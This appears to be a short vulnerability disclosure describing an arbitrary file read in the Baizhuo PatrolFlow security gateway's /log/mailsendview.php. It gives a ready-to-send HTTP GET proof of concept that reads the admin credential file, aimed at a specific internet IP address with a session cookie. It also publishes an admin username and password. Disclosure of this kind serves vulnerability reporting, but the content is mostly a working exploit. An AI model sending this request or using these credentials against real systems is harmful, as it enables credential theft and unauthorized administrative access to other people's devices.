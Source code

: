 Baizhuo Network PatrolFlow Multi Service Security Gateway Intelligent Management Platform Has Arbitrary File Reading Vulnerability

version:PatrolFlow-AM-2530Pro

Route: /log/mailsendview.php

```
账号/密码：admin/xxsjl6502
```

![image-20231126134435551](C:\Users\Emptybottle\AppData\Roaming\Typora\typora-user-images\image-20231126134435551.png)

POC

Construct the file parameter by using/boot/phpConfiguration/tb_ Admin.txt, read the login account password. With the account password, you can directly log in to the background or read any file in the system.

```
GET /log/mailsendview.php?file=/boot/phpConfig/tb_admin.txt&type=Sina WebMail HTTP/1.1
Host: 124.202.243.26:8443
Cookie: PHPSESSID=c4e5298c1154725b728b89535809cdd6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
X-Originating-Ip: 1.1.1.1
X-Remote-Ip: 1.1.1.1
X-Remote-Addr: 1.1.1.1
Te: trailers
Connection: close


```
![image-20231126134502897](C:\Users\Emptybottle\AppData\Roaming\Typora\typora-user-images\image-20231126134502897.png)
